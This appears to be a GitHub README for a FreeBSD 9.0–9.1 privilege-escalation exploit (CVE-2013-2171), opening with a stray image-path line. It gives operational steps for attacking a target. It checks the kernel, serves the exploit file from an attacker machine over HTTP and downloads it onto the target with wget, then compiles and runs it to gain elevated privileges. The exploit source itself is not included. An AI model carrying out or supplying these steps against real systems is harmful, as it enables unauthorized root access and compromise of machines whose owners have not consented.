 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

## How to Exploit!

**1° Check the kernel version**

```
uname -a

FreeBSD freebsd 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012
```

**2° Transfer this file to target**

```
Attacker machine -> python3 -m http.server 8080

Target machine -> wget IP:8080/26368.c
```

**3° Use GCC to compile the code**

```gcc 26368.c -o exploit```

**4° Run the exploit**

```./exploit```
